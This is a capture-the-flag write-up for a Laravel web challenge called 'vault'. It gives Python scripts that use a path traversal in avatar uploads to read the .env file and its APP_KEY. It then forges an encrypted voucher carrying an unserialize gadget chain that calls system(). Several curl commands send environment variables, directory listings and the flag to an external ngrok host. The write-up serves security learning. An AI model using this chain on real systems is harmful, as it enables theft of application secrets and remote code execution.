

## Challenge Information
- **Challenge Name:** vault
- **Category:** web

## Challenge Description
Space Vault v1.0 handles all your intergalactic monetary needs!

This challenge uses an instancer. To spawn a container, run `/start` in the `#vault-instancer` channel on the Discord server.

## Solution Approach

If we start up an instance, we can see it is an app where you can register to make an account and then login.

{width=50%}

After making an account, there isn't anything too interesting except for the vouchers. It looks like the intended purpose is to transfer money to another user, but if we decode a voucher from Base64
`eyJpdiI6IkxvMHRNK0RaSTNlWHNheW9RU1FmVEE9PSIsInZhbHVlIjoiTk1lc2swaTVxVVd2RUg3eVVHL2prbDZVZ2owM0dXV09ZWjFUcWY5bzZVMmpoQmlkdnhRejJXMVhqVjRLb1VQRjNCNnZlRndzRS9qT2tNSllJVGxtVlpFSVZXZXMzakZURjFpM1N3RTRBckYwSTZqT04xRnFxTjltRzJXT2lROWFHZ1F5SnVYeDRvL2M0NUZBREE1eEV6TitnZVN2WmwxOHpDaXYyOElvRC9HbWtpV0Z4eU5zeHhqcFpKSU1PTFJjQU1ONm9hS2JHalhUZGxpUko3UXdRZWErUEF0L2NqSFZFTlFBSy9aUnhXclNCWTBlVzlEUnd1dHNBeXRmcUI1eThIYmRSekd2bWlPcjNxRmtRakNlZzYwTFpWVExlTzAydE5ad3V1ZEQwZkZPL0R4Y3NJUG1wVG1VVTc5VXRwYUkiLCJtYWMiOiI4YTAwZWZmMjJkZjNkMGI0NjE1MjQwOWE3MGY2MjJkNTVlZDZkZjdmOWRhZjcxZjhmZjhkZWY3NDNjY2RkNjBhIiwidGFnIjoiIn0=`,

we get `{"iv":"Lo0tM+DZI3eXsayoQSQfTA==","value":"NMesk0i5qUWvEH7yUG/jkl6Ugj03GWWOYZ1Tqf9o6U2jhBidvxQz2W1XjV4KoUPF3B6veFwsE/jOkMJYITlmVZEIVWes3jFTF1i3SwE4ArF0I6jON1FqqN9mG2WOiQ9aGgQyJuXx4o/c45FADA5xEzN+geSvZl18zCiv28IoD/GmkiWFxyNsxxjpZJIMOLRcAMN6oaKbGjXTdliRJ7QwQea+PAt/cjHVENQAK/ZRxWrSBY0eW9DRwutsAytfqB5y8HbdRzGvmiOr3qFkQjCeg60LZVTLeO02tNZwuudD0fFO/DxcsIPmpTmUU79UtpaI","mac":"8a00eff22df3d0b46152409a70f622d55ed6df7f9daf71f8ff8def743ccdd60a","tag":""}` which is an encrypted value.

Let's dive into the code now. Opening `app/Http/Controllers/AccountController.php` shows us there are some more options we have as a logged in user than was exposed to us visually, mainly the `avatar` and `uploadAvatar` routes. Since `uploadAvatar` takes `$_FILES['avatar']['full_path']` and appends it directly to the path `/var/www/storage/app/public/avatars/` without validation, we can exploit this.

I wrote a script to make this process easier on me, because you need to make a new account every time or else you risk deleting an important file since `updateAvatar` unlinks the previous path. 

```python
import requests
import uuid
import re

BASE_URL = "https://3b26c8fe-6c3f-4122-a15f-4d81827d4b2a.tamuctf.com"

def get_csrf(session, url):
    """Extracts the CSRF token from the page HTML."""
    res = session.get(url)
    match = re.search(r'name="_token" value="(.+?)"', res.text)
    return match.group(1) if match else None

def automate_exploit():
    s = requests.Session()
    username = uuid.uuid4()
    password = "password"

    print("Registering new account: ", username)
    reg_url = f"{BASE_URL}/register"
    token = get_csrf(s, reg_url)
    reg_data = {
        "_token": token,
        "username": username,
        "password": password,
        "password2": password
    }
    s.post(reg_url, data=reg_data)

    print("Logging in...")
    login_url = f"{BASE_URL}/login"
    token = get_csrf(s, login_url)
    login_data = {
        "_token": token,
        "username": username,
        "password": password
    }
    s.post(login_url, data=login_data)

    avatar_update_url = f"{BASE_URL}/account/avatar"
    token = get_csrf(s, f"{BASE_URL}/account")

    # Path traversal payload for the filename metadata
    traversal_payload = "../../../../.env"
    # traversal_payload = "../../../../storage/logs/laravel.log"

    # GIF89a is the magic bytes of a GIF file
    files = {
        'avatar': (traversal_payload, b'GIF89a', 'image/gif')
    }

    s.post(avatar_update_url, data={"_token": token}, files=files)

    print("Retrieving target file via /avatar route...")
    result = s.get(f"{BASE_URL}/avatar")
    print(result.text)

if __name__ == "__main__":
    automate_exploit()
```

Those two paths are the only ones I was able to access with whatever permissions this has. I tried /etc/passwd, but that didn't work either. However, since I could access the `.env`, that means we have the `APP_KEY`. Which is the:
```php
    /*
    | Encryption Key
    | This key is utilized by Laravel's encryption services...
```

From the vouchers mentioned earlier, we can see the route uses `$voucher = decrypt($data['voucher']);` and `decrypt` uses `unserialize`, so we can use [phpggc](https://github.com/ambionics/phpggc) to make a RCE payload. `src/composer.json` says our Laravel version is 12.0, so we have to use Laravel/RCE22 since it supports `11.34.2+`. I had no idea if it was working, so I decided to make it curl a `ngrok` URL that I was hosting locally just to make sure I got something even if the commands I were doing failed.


```python
import requests
import json
import base64
import hmac
import hashlib
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad

API = "https://3b26c8fe-6c3f-4122-a15f-4d81827d4b2a.tamuctf.com"
APP_KEY = base64.b64decode("TOLD/5tA/Zl2b6Q5iv5yrOJlVbRPQ/5rofDedn+2n2Q=")
NGROK_URL = "https://9dcf-208-180-176-59.ngrok-free.app"

cmd = 'curl -X POST -d "flag=$(base64 /tmp/flag.txt)" ' + NGROK_URL
cmd = 'curl -X POST -d "test=$(echo hello)" ' + NGROK_URL
cmd = 'curl -X POST -d "env=$(env | base64 | tr -d \"\\n\")" ' + NGROK_URL
cmd = 'curl -X POST -d "flag=$(ls /tmp/)" ' + NGROK_URL
cmd = 'curl -X POST -d "flag=$(tree /)" ' + NGROK_URL
cmd = 'curl -X POST -d "out=$(ls -la /tmp/ 2>&1 && cat /tmp/flag.txt 2>&1)" ' + NGROK_URL
cmd = 'curl -X POST -d "out=$(ls -la / 2>&1)" ' + NGROK_URL
cmd = 'curl -X POST -d "flag=$(cat /0a38ec7685501481dec7e9b4-flag.txt)" ' + NGROK_URL

payload = (
    b'O:40:"Illuminate\\Broadcasting\\PendingBroadcast":2:{'
    b's:9:"\x00*\x00events";O:41:"League\\CommonMark\\Environment\\Environment":2:{'
    b's:64:"\x00League\\CommonMark\\Environment\\Environment\x00extensionsInitialized";b:1;'
    b's:55:"\x00League\\CommonMark\\Environment\\Environment\x00listenerData";O:38:"League\\CommonMark\\Util\\PrioritizedList":1:{'
    b's:44:"\x00League\\CommonMark\\Util\\PrioritizedList\x00list";a:1:{i:0;a:1:{i:0;O:36:"League\\CommonMark\\Event\\ListenerData":2:{'
    b's:43:"\x00League\\CommonMark\\Event\\ListenerData\x00event";s:32:"\\Illuminate\\Broadcasting\\Channel";'
    b's:46:"\x00League\\CommonMark\\Event\\ListenerData\x00listener";O:54:"Illuminate\\Support\\Testing\\Fakes\\ChainedBatchTruthTest":1:{'
    b's:11:"\x00*\x00callback";s:6:"system";}}}}}}'
    b's:8:"\x00*\x00event";O:31:"Illuminate\\Broadcasting\\Channel":1:{'
    b's:4:"name";s:' + str(len(cmd)).encode() + b':"' + cmd.encode() + b'";}}'
)

iv = b"\x00" * 16
cipher = AES.new(APP_KEY, AES.MODE_CBC, iv)
value = base64.b64encode(cipher.encrypt(pad(payload, 16))).decode()
iv_encoded = base64.b64encode(iv).decode()

# Laravel MAC = hmac_sha256(iv + value)
mac = hmac.new(APP_KEY, (iv_encoded + value).encode(), hashlib.sha256).hexdigest()

voucher_json = json.dumps({"iv": iv_encoded, "value": value, "mac": mac, "tag": ""})
final_payload = base64.b64encode(voucher_json.encode()).decode()

print(f"Generated Voucher: {final_payload}")
```

As you can see, I tried a lot of different commands. I thought for the longest time the flag was in `/tmp/flag.txt` since thats what was in the Dockerfile, but the challenge creators updated the archive they gave us later into the challenge that included the `entrypoint.sh` file which shows it being moved to `/<hex>-flag.txt`, so I eventually got it.

```
127.0.0.1 - - [20/Mar/2026 23:01:06] "POST / HTTP/1.1" 200 -
Received POST data: out=total 0
drwxrwxrwt. 1 root root 22 Mar 21 17:37 .
drwxr-xr-x. 1 root root 80 Mar 21 17:36 ..
cat: /tmp/flag.txt: No such file or directory
127.0.0.1 - - [21/Mar/2026 13:38:14] "POST / HTTP/1.1" 200 -
Received POST data: out=total 4
drwxr-xr-x.     1 root root  80 Mar 21 17:36 .
drwxr-xr-x.     1 root root  80 Mar 21 17:36 ..
-rwxr-xr-x.     1 root root   0 Mar 21 17:36 .dockerenv
-rw-rw-r--.     1 root root  42 Mar 18 21:19 0a38ec7685501481dec7e9b4-flag.txt
lrwxrwxrwx.     1 root root   7 Mar  2 21:50 bin -> usr/bin
drwxr-xr-x.     2 root root   6 Mar  2 21:50 boot
drwxr-xr-x.     5 root root 340 Mar 21 17:36 dev
drwxr-xr-x.     1 root root  66 Mar 21 17:36 etc
drwxr-xr-x.     2 root root   6 Mar  2 21:50 home
lrwxrwxrwx.     1 root root   7 Mar  2 21:50 lib -> usr/lib
lrwxrwxrwx.     1 root root   9 Mar  2 21:50 lib64 -> usr/lib64
drwxr-xr-x.     2 root root   6 Mar 16 00:00 media
drwxr-xr-x.     2 root root   6 Mar 16 00:00 mnt
drwxr-xr-x.     2 root root   6 Mar 16 00:00 opt
dr-xr-xr-x. 95008 root root   0 Mar 21 17:36 proc
drwx------.     2 root root  37 Mar 16 00:00 root
drwxr-xr-x.     1 root root  46 Mar 21 17:36 run
lrwxrwxrwx.     1 root root   8 Mar  2 21:50 sbin -> usr/sbin
drwxr-xr-x.     2 root root   6 Mar 16 00:00 srv
dr-xr-xr-x.    13 root root   0 Mar 19 23:57 sys
drwxrwxrwt.     1 root root  22 Mar 21 17:37 tmp
drwxr-xr-x.     1 root root  19 Mar 16 00:00 usr
drwxr-xr-x.     1 root root  39 Mar 16 22:23 var
127.0.0.1 - - [21/Mar/2026 13:40:33] "POST / HTTP/1.1" 200 -
Received POST data: flag=gigem{142v31_d3c2yp7_15_d4n9320u5_743f9c}
127.0.0.1 - - [21/Mar/2026 13:41:17] "POST / HTTP/1.1" 200 -
```